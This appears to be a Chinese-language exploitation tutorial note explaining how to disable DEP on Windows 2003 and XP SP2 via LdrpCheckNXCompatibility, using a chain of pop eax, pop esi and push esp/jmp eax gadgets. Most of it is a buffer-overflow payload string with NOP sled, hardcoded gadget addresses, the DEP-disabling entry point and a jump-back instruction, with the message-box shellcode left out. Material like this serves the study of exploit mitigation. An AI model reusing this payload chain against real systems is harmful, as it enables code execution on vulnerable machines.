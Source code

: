 补充 windows 2003 xp2 修改了LdrpCheckNXCompatibility ， 影响最大的就是会对ESI指向的内存读写，

可以使用下面的代码 但是不好找

```
push esp pop esi retn
```

(1)找到 pop eax retn 指令，并让程序转入该位置执行。

(2)找到一条 pop esi retn 的指令并保证在执行(1)中 pop eax 时它的地址位于栈顶，就可以把该地址放到eax 中。

(3)找到 push esp jmp eax 指令，并转入执行。

这样就相当于执行了 push esp pop esi retn，esi 被指到了可写位置

```
“........“    //弹框机器码
"\x90\x90\x90\x90 ........."
"\x94\xb3\x97\x7c"//MOV EAX,1 RETN地址 0x7c97b394
"\xe4\xa3\xca\x77" // push esp pop ebp retn 4  0x77caa3e4
"\x81\x71\xba\x7c"// pop eax retn  0x7cba7181
"AAAA"
"\x72\xe5\xb9\x7c"// pop esi retn 0x7cb9e572
"\xbf\x7d\xc9\x77" // push esp jmp eax 0x77c97dbf
"\x3c\x15\xb9\x7c"// retn 0x30  0x7cb9153c
"\x8d\x1b\x80\x7c "//关闭 DEP 代码的起始位置  0x7c801b8d
"\xE9\x33\xFF\xFF"//回跳指令
"\xFF\x90\x90\x90"
```

(当前eip)pop eax ret

(esp指向的位置)  pop eax (eax 希望执行的指令的地址)   (后面ret)	

push esp jmp eax

希望执行的目标的地址	后esp的位置	

push esp jmp eax 跳转前后的情况：

![jmp1](dep/jmp1.png)
